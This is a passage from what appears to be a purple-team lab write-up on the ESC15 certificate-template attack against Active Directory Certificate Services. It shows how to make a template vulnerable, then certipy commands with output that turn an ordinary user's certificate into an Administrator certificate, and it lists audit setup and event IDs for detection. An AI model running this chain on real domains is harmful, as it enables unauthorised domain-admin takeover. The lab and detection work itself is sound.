PS C:\Users\Administrator> Get-ADObject -LDAPFilter "(lDAPDisplayName=mail)" -SearchBase (Get-ADRootDSE).schemaNamingContext -Properties schemaIDGUID |
>> ForEach-Object {
>>     [guid]$guid = $_.schemaIDGUID
>>     "$($_.lDAPDisplayName) GUID: $guid"
>> }
 GUID: bf967961-0de6-11d0-a285-00aa003049e2
PS C:\Users\Administrator> Set-AuditRule -AdObjectPath 'AD:\CN=Users,DC=purpleteam,DC=local' -WellKnownSidType WorldSid -Rights WriteProperty -InheritanceFlags Children -AttributeGUID bf967961-0de6-11d0-a285-00aa003049e2 -AuditFlags Success
```

# 13. ESC15

## 13.1 Create a vulnerable template 

Modify the WebServer built-in template and add, under the security tab, the right for the attacker user to read & enroll the certificate.


## 13.2 Exploitation 

1. Request a certificate with the Client Request Agent application policy
```
┌──(kali㉿kali)-[~]
└─$ certipy req -u 'attacker@purpleteam.local' -application-policies "1.3.6.1.4.1.311.20.2.1" -ca DC01-CA -template 'WebServer' -dc-ip 172.16.0.1 
Certipy v5.0.3 - by Oliver Lyak (ly4k)

Password:
[*] Requesting certificate via RPC
[*] Request ID is 62
[*] Successfully requested certificate
[*] Got certificate without identity
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'attacker.pfx'
File 'attacker.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote certificate and private key to 'attacker.pfx'
```

2. Use the certificate in a ESC3 scenario to ask for a new certificate on behalf of another user
```
└─$ certipy req -u 'attacker@purpleteam.local' -on-behalf-of 'PURPLETEAM\Administrator' -template User -ca DC01-CA -pfx attacker.pfx -dc-ip 172.16.0.1 
Certipy v5.0.3 - by Oliver Lyak (ly4k)

Password:
[*] Requesting certificate via RPC
[*] Request ID is 64
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@purpleteam.local'
[*] Certificate object SID is 'S-1-5-21-2903762927-2752062241-1101764633-500'
[*] Saving certificate and private key to 'administrator.pfx'
File 'administrator.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): yes
[*] Wrote certificate and private key to 'administrator_173a1264-71ca-4757-8255-ac73541f2fdd.pfx'
```

## 13.3 ADCS event logs

For the first step there is an interesting 4886 & 4887 : 
1. 4886


2. 4887


For the second step, there is an interesting 4887 : 

